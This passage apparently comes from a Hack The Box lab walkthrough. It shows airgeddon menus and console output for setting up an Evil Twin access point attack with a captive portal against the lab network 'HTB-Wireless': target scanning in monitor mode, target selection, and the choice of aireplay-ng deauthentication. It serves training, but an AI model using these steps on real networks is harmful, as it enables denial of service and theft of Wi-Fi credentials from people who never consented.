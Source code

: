 ```
10.  Evil Twin AP attack with captive portal (monitor mode needed) 
--------- 
*Hint* If you want to integrate "DoS pursuit mode" on an Evil Twin attack, another additional wifi interface in monitor mode will be needed to be able to perform it 
--------- 
> 9
An exploration looking for targets is going to be done... 
Press [Enter] key to continue...
```

Press `Enter` to begin exploring for targets.

Code: sessiojn

```
**************************** Exploring for targets ***************************** 
Exploring for targets option chosen (monitor mode needed) 

Selected interface wlan0mon is in monitor mode. Exploration can be performed 

Chosen action can be carried out only over WPA/WPA2 networks, however WPA3 has been included in the scan filter because these networks sometimes work in "Mixed mode" offering WPA2/WPA3 and in that case they are displayed in the scan window as WPA3. So WPA3 networks will appear but then airgeddon will analyze them after scan to allow you select only those that also offering WPA2 

WPA/WPA2/WPA3 filter enabled in scan. When started, press [Ctrl+C] to stop... 
Press [Enter] key to continue...
```

When the `HTB-Wireless` target is discovered, press `Enter`. Then, from the Select Target menu, choose `Option 2 - HTB-Wireless`.

```
******************************** Select target ********************************* 

  N.         BSSID      CHANNEL  PWR   ENC    ESSID 
------------------------------------------------------- 
  1)   03:00:03:D2:02:F0   -1     0%          (Hidden Network)
  2)   52:CD:8C:79:AD:87    1    72%   WPA2   HTB-Wireless

(*) Network with clients 
------------------------------------------------------- 
Select target network: 
> 2
```

For the deauthentication method, select `Option 2 - Aireplay-ng`. Choose `N` to continue without enabling DoS pursuit mode.

```
******************************* Evil Twin deauth ******************************* 
Interface wlan0mon selected. Mode: Monitor. Supported bands: 2.4Ghz, 5Ghz 
Selected BSSID: 52:CD:8C:79:AD:87 
Selected channel: 1 
Selected ESSID: HTB-Wireless 
Handshake file selected: None 

Select an option from menu: 
--------- 
1.  Return to Evil Twin attacks menu 
--------- 
2.  Deauth / disassoc amok mdk4 attack 
3.  Deauth aireplay attack 
4.  WIDS / WIPS / WDS Confusion attack 
--------- 
```